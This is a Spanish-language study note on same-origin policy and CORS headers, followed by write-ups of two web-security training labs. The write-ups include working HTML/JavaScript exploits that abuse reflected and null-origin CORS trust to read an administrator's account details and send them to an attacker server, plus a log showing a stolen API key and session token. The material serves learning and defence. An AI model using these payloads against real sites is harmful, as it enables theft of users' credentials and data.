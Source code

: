 # SOP 

> La política del mismo origen impide que los scripts de un origen accedan a datos de otro origen. Un origen consta de un esquema de URI, un dominio y un número de puerto.

Al parecer fue primero que el CORS

## HttpOnly

Es una cabecera que tiene que ver con compartir los datos entre subdominios lo cual no lo permite.

# CORS

> Cross Origin (origen cruzado) es la palabra que se utiliza para denominar
el tipo de peticiones que se realizan a un dominio diferente del dominio de origen desde donde se realiza la petición. De esta forma, por una parte tenemos las peticiones de origen cruzado (cross-origin) y las peticiones del mismo origen (same-origin).

> Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain.

Osea que son peticiones que se generan desde nuestra pagina a otra pagina.

> CORS (Cross-Origin Resource Sharing) es un mecanismo o política de seguridad que permite controlar las peticiones HTTP asíncronas que se pueden realizar desde un navegador a un servidor con un dominio diferente de la página cargada originalmente. 
Este tipo de peticiones se llaman peticiones de origen cruzado (cross-origin).

Por defecto 

> Utilizando este tipo de peticiones asíncronas, los recursos situados en dominios diferentes al de la página actual no están permitidos por defecto.
Es lo que se suele denominar protección de CORS. Su finalidad es dificultar la posibilidad de añadir recursos ajenos en un sitio determinado.

## Access-Control-Allow-Origin

Esta es una cabecera que se puede añadir para pemitir solicitudes cruzadas hacia otros dominion y se usa asi:

```
Access-Control-Allow-Origin: https://domain.com/
Access-Control-Allow-Origin: *

```


> El asterisco * indica que se permiten peticiones de origen cruzado a cualquier dominio, algo que puede ser interesante cuando se tienen API públicas a las que quieres permitir el acceso al público en general, 
casos como los de Google Fonts o JSDelivr, por citar un ejemplo.

EJEMPLO:

Segun lo entendido el servidor robust-website.com hace una petcion a https://normal-website.com

```
GET /data HTTP/1.1
Host: robust-website.com
Origin : https://normal-website.com

```

***Conclucion***: El CORS se configura del lado del servidor y a las dos partes se le llama origen (Cliente y Servidor) osea si voy a hacer una peticion desde mipagina.com el origuen seria ese
a mi serverapi.com (pero este tambien tiene un campo origen cuando se manda la respuesta y el origen seria serverapi.com pero al enviar la respuesta) ahora al enviar esa peticion el servidor
revisa si este origen tiene permisos para pedir datos del servidor( para apis por ejemplo la poken api queremos que todos puedan solicitar datos entonces se usa el asterisco
en la Access-Control-Allow-Origin:*) si no los tiene pues regresa el error de CORS si si esta permitido ese "origen" pues regresa los datos.

## Access-Control-Allow-Credentials

> El encabezado Access-Control-Allow-Credentials funciona junto con la propiedad XMLHttpRequest.withCredentials o con la opción credentials en el constructor Request() de la API Fetch. Para una solicitud CORS con credenciales, para que los navegadores expongan la respuesta al código JavaScript de la interfaz, tanto el servidor (usando el encabezado Access-Control-Allow-Credentials ) como el cliente (configurando el modo de credenciales para XHR, Fetch o Solicitud Ajax) debe indicar que están optando por incluir credenciales.
Osea permiten que el cliente sepa que se pueden hacer peticiones cruzadas con credenciales.

## XMLHttpRequest.withCredentials

> La propiedad XMLHttpRequest.withCredentials es un valor booleano que indica si se deben realizar o no solicitudes de Access-Control sitios utilizando credenciales como cookies, encabezados de autorización o certificados de cliente TLS. La configuración con withCredentials no tiene ningún efecto en las solicitudes del mismo sitio.

> https://runebook.dev/es/docs/dom/xmlhttprequest/withcredentials

```
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://example.com/', true);
xhr.withCredentials = true;
xhr.send(null

```

# CORS vulnerability with basic origin reflection

Para este lab primero se verifica que la pagina es vulnerable poniendo un Origen aleatoreo por ejemplo Origin:www.evil.com esto se pone en la 
pagina donde se ve los detalles de la cuenta entonces con el repeater se renvia y lo que se nota es que 
ese mismo origen que inyectamos se ve reflekado en la respuesta junto con las respectivas cabeceras: 

```
Access-Control-Allow-Origin: www.evil.com
Access-Control-Allow-Credentials: true

```

Entonces el ataque consiste en lo siguiete: Crear un scritp que se aproveche de esta vulnerabilidad de aceptar cualquier origen, que un usuario admin oprima el 
link donde esta el script este lo que hace es generar una  peticion hacia account details de ahi saca los datos que es el token de la api para posteriormente
generar una peticion a un servidor del atacante en donde se manda los datos del admin.

```

<html>
<head>
<body>
<script>
	
 var xhr = new XMLHttpRequest(); // creamos un objeto para poder hacer peticiones
 var url = "https://0ac60051041133d6c0b462860014009b.web-security-academy.net/accountDetails"; // definimos la url donde regresa el token de un usuario

 xhr.onreadystatechange = function() { // esta funcion sirve para que cuando se genere el evento de DONE que es cuando la pagina ya termina de tardar
 if (xhr.readyState == XMLHttpRequest.DONE) {
 fetch("/log?key=" + xhr.responseText)// es una peticion al servidor del atacante con los datos que le intersa robar como es asincrono hasta que se genere no
// ejecuta este codigo
 	}
 }

 
 xhr.open('GET',url,true) // le que tipo de peticion se tiene que hacer  la url y true para decirle que se pueden hacer peticiones asincronas
 xhr.withCredentials = true;// Para que permita peticiones cruzadas con cookies y cledenciales
 xhr.send(null);// envio de la peticion inicial



</script>

</body>
</html>

```

Si revisamos el log del servidor del atacante tendriamos que ver algo asi:

```

10.0.42.54       2022-08-02 20:26:24 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22eSYXthMZ83TzlMynck1P2Yc4c2EyQ5Q0%22,%20%20%22sessions%22:%20[%20%20%20%20%22xhtZk7Xn0jtwvFjXRrcFbY3u2iO0OH9Y%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36"
19.21.168.1   2022-08-02 20:26:24 +0000 "GET / HTTP/1.1"

```


# CORS vulnerability with trusted null origin

Es parecido al laboratorio pasado solo que  ahora se pone el Origin: null y se ve reflejado en la respuesta
para generar un origen null se usa un iframe.

```
<html>
<head>
<body>
<iframe sandbox="allow-scripts" srcdoc="
<script>
 var xhr = new XMLHttpRequest();
 var url = 'https://0a29001d04361e32c11ae084002a00db.web-security-academy.net'

 xhr.onreadystatechange = function() {
 if (xhr.readyState == XMLHttpRequest.DONE) {
 fetch('https://exploit-0afc0054040a1e43c1cee0c801c60000.web-security-academy.net/log?key=' + xhr.responseText)
    }
 }


 xhr.open('GET',url + '/accountDetails',true);
 xhr.withCredentials = true;
 xhr.send(null);

</script>"></iframe>
</body>
</html>
	
```	
Para crear un ataque real necesitariamos tener un servidor y que el administrador de clic.
